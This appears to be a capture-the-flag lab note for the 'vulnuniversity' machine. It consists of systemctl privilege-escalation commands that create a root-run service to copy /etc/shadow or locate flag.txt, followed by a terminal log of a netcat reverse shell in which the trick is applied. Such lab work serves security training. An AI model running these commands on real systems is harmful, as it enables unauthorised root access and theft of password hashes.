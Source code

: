 ```python

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /etc/shadow > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF




TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "find / -type f -name flag.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF











┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
[1]  + continued  nc -lnvp 9999

www-data@vulnuniversity:/$ ls
bin   etc         lib         media  proc  sbin  sys  var
boot  home        lib64       mnt    root  snap  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv   usr
www-data@vulnuniversity:/$ ls /tmp
systemd-private-bdeefd24b3db404dbd455703dfaffa8a-systemd-timesyncd.service-zaUH8g
www-data@vulnuniversity:/$ ls /root
ls: cannot open directory '/root': Permission denied
www-data@vulnuniversity:/$ TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /etc/shadow > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/$ ls /tmp
systemd-private-bdeefd24b3db404dbd455703dfaffa8a-systemd-timesyncd.service-zaUH8g
tmp.emRl5R2fIU
tmp.emRl5R2fIU.service
www-data@vulnuniversity:/$ systemctl link $TF
Created symlink from /etc/systemd/system/tmp.emRl5R2fIU.service to /tmp/tmp.emRl5R2fIU.service.
www-data@vulnuniversity:/$ ls /tmp
systemd-private-bdeefd24b3db404dbd455703dfaffa8a-systemd-timesyncd.service-zaUH8g
tmp.emRl5R2fIU
tmp.emRl5R2fIU.service
www-data@vulnuniversity:/$ systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.emRl5R2fIU.service to /tmp/tmp.emRl5R2fIU.service.
```